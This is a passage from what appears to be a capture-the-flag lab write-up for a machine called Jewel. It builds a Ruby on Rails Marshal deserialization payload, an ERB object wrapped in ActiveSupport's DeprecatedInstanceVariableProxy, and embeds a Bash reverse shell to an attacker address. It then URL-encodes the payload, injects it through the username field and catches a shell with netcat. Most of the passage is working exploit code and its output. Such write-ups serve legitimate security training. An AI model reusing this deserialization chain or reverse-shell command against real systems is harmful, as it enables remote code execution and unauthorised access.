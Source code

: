 

It's interesting that it pings three times given that I used `-c 1`, but
perhaps it is executed three times.

### Shell

To get a shell, I'll use the same process, this time with `code` being a
Bash reverse shell:



    irb(main):010:0> code = '`bash -c "bash -i >& /dev/tcp/10.10.14.19/443 0>&1"`'
    => "`bash -c \"bash -i >& /dev/tcp/10.10.14.19/443 0>&1\"`"
    irb(main):011:0> erb = ERB.allocate
    => #<ERB:0x00007f2e605598e0>
    irb(main):012:0> erb.instance_variable_set :@src, code
    => "`bash -c \"bash -i >& /dev/tcp/10.10.14.19/443 0>&1\"`"
    irb(main):013:0> erb.instance_variable_set :@filename, "1"
    => "1"
    irb(main):014:0> erb.instance_variable_set :@lineno, 1
    => 1
    irb(main):015:0> payload=Marshal.dump(ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new erb, :result)
    => "\x04\bo:@ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy\t:\x0E@instanceo:\bERB\b:\t@srcI\"9`bash -c \"bash -i >& /dev/tcp/10.10.14.19/443 0>&1\"`\x06:\x06ET:\x0E@filenameI\"\x061\x06;\tT:\f@linenoi\x06:\f@method:\vresult:\t@varI\"\f@result\x06;\tT:\x10@deprecatorIu:\x1FActiveSupport::Deprecation\x00\x06;\tT"
    irb(main):016:0> puts URI.encode_www_form(payload: payload)
    payload=%04%08o%3A%40ActiveSupport%3A%3ADeprecation%3A%3ADeprecatedInstanceVariableProxy%09%3A%0E%40instanceo%3A%08ERB%08%3A%09%40srcI%229%60bash+-c+%22bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.10.14.19%2F443+0%3E%261%22%60%06%3A%06ET%3A%0E%40filenameI%22%061%06%3B%09T%3A%0C%40linenoi%06%3A%0C%40method%3A%0Bresult%3A%09%40varI%22%0C%40result%06%3B%09T%3A%10%40deprecatorIu%3A%1FActiveSupport%3A%3ADeprecation%00%06%3B%09T
    => nil



When I send that to the username, and then refresh `/articles`, I get a
shell:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.211.
    Ncat: Connection from 10.10.10.211:45312.
    bash: cannot set terminal process group (786): Inappropriate ioctl for device
    bash: no job control in this shell
    bill@jewel:~/blog$ id
    uid=1000(bill) gid=1000(bill) groups=1000(bill)



I'll upgrade to a full TTY:
